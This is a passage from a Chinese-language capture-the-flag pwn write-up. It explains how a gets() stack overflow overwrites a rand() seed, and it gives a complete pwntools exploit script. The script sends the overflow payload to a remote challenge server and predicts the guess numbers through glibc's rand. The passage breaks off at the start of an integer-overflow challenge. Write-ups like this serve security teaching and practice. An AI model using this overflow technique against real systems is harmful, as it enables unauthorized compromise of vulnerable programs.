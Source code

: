 ```cpp
  sub_C3E(v4);
```

因为rand()本质是上是根据seed生成的一串伪随机数列

所以我们只要覆盖seed(0)为指定值就不难预言后面的数字了

显然gets是可以溢出的

v8和seed[0]在栈上

```cpp
  char v8; // [rsp+10h] [rbp-30h]
  unsigned int seed[2]; // [rsp+30h] [rbp-10h]
```

差0x20，所以构造

### Payload

```cpp
payload='a'*0x20+p64(123)
```

### Exp

```python
#coding=utf-8
from pwn import *
from ctypes import * #用来调用glibc，和源程序采用一致的rand函数
context(arch = 'amd64', os = 'linux')
payload='a'*0x20+p64(123)
io=remote("111.198.29.45","55317")
io.sendlineafter("Please let me know your name!",payload)
libc=cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(123)
for i in range(10):
    io.sendlineafter("Please input your guess number:",str(libc.rand()%6+1))
io.interactive()
```

## 0x09 int_overflow

Checksec

```bash
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
拖进ida pro

看到一个很奇怪的函数

